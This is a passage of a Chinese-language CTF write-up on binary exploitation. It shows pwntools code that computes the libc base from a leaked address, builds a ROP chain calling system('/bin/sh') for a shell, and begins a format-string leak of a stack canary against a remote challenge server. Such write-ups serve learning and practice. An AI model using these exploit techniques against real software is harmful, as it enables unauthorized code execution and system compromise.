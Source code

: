 接下来就是算libc基址，以及通过偏移量拿到libc中的system和/bin/sh

这个地方我还找了半天，什么/bin/bash；/bin/dash；sh；

就是忘记找/bin/sh了:（

```python
write_addr = u64(data)
print(format(write_addr, 'x'))
libc_base = write_addr - libc.symbols['write']
print(format(libc_base, 'x'))
system_addr = libc_base + libc.symbols['system']
print(format(system_addr, 'x'))
bin_bash = libc_base + next(libc.search(b'/bin/sh'))
print(format(bin_bash, 'x'))
```

最后就是调用准备好的system！这里也需要给system提供一下参数

同上面ROPgadget的方法，把bin_bash的地址放到rdi里

```python
payload = (b'A'* (88+8+8) +
           p64(0x0401233) + p64(bin_bash) +
           p64(system_addr+27) + p64(0x040117A))
p.sendline(payload)

p.interactive()
```

### 2.2 金丝雀

> 程序逻辑是 input name > output name > input buf
> 
> 和上一题的不同就是
> 
> Stack:      Canary found

核心就是位于rbp-8位置的canary校验

程序只要启动这个值就不会变了，所以把它输出出来，之后的payload这个位置就放这个值就好

输出需要动态调试一下，因为输出时的栈不是main时候的栈

可以先找到main时候的esp需要多少，然后+上esp到canary的数量就好了

总之这道题是第67个指针对应了canary

```python
elf = ELF("----------/xiaoniao")
libc = ELF("------------/libc.so.6")
write_plt = elf.plt['puts']
print(hex(write_plt))
write_got = elf.got['puts']
print(hex(write_got))

p = remote('node9.anna.nssctf.cn', 20348)

payload0 = b'%67$p\n'
p.sendline(payload0)
```
